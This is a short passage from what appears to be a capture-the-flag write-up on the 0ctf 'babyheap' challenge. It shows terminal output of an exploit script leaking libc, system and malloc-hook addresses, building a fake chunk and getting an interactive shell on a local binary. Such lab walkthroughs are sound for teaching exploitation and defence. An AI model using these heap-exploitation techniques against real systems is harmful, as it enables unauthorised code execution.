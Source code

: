 When we run the exploit:
```
$	python exploit.py 
[+] Starting local process './0ctfbabyheap': pid 19522
[*] running in new terminal: /usr/bin/gdb -q  "/Hackery/0ctf/babyheap/0ctfbabyheap" 19522
[+] Waiting for debugger: Done
[*] '/Hackery/0ctf/babyheap/libc-2.23.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Leak is:        0x7fdcce6c5b78
[*] System is:      0x7fdcce34626a
[*] Free hook is:   0x7fdcce6c77a8
[*] Malloc hook is: 0x7fdcce6c5b10
[*] Fake chunk is:  0x7fdcce6c5aed
[*] libc is:        0x7fdcce301000
[*] Switching to interactive mode
$ w
 23:18:50 up  3:22,  1 user,  load average: 1.46, 1.05, 0.87
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
guyinatu tty7     :0               20:06    3:21m  5:20   0.05s /bin/sh /usr/lib/gnome-session/run-systemd-session ubuntu-session.target
$ ls
0ctfbabyheap  core        overflow_bug           readme.md
1          exploit.py    peda-session-0ctfbabyheap.txt
2          libc-2.23.so  peda-session-dash.txt
3          notes        peda-session-w.procps.txt
$  
```

Just like that, we popped a shell!
